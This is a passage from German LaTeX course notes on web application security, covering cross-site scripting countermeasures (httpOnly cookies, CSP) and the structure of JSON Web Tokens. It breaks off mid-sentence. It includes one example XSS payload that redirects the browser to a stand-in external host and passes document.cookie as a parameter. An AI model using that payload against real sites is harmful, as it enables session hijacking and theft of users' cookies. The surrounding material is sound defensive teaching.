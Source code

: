 Beispiel für ein einfaches Javascript-Fragment welches ein Redirect auf einen externen Server (xyz.com) durchführt und als GET-Parameter die aktuellen Cookies übergibt:

\begin{verbatim}
<script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
</script>
\end{verbatim}

Folgende Gegenmaßnahmen sollten implementiert werden:

\begin{itemize}
	\item keine XSS-Lücke in der Webseite implementieren\ldots
	\item durch Verwendung des httpOnly-Cookie Flags kann dem Webbrowser mitgeteilt werden, dass der Zugriff mittels Javascript auf das Session Cookie nicht erlaubt ist.
	\item CSP bietet Möglichkeiten XSS-Angriffe einzuschränken.
\end{itemize}

\section{JSON Web Tokens}

JSON Web Tokens (JWT) sind standardisierte (RFC 7519) Tokens die als HTTP Parameter, HTTP Session Cookies oder mittels eines HTTP Headers übertragen werden können. Ein JSON Web-Token besteht aus drei Bereichen:

\begin{itemize}
	\item Header: dieser Bereich speichert vor allem den verwendeten Algorithmus zur Erstellung des Integrity Checks.
	\item Content: JSON-Dokument welches die eigentliche Payload des Tokens ist. Es gib hier mehre vordefinierte optionale Werte: \textit{iss} beschreibt den Issuer/Aussteller des Tokens, \textit{sub} beschreibt das Subjekt des tokens, \textit{aud} die geplante Audience (welche Server sollen das Token erhalten, \textit{exp} und \textit{nbf} den Gültigkeitszeitraum des tokens, \textit{iat} den Ausstellungszeitpunkt.
	\item Integrity Check: der integrity check verwendet den, im \textit{alg}-Header definierten Algorithmus über \textit{header} und \textit{content} um eine Checksumme zu bilden.
\end{itemize}

Die Gesamtstruktur des Tokens ist:

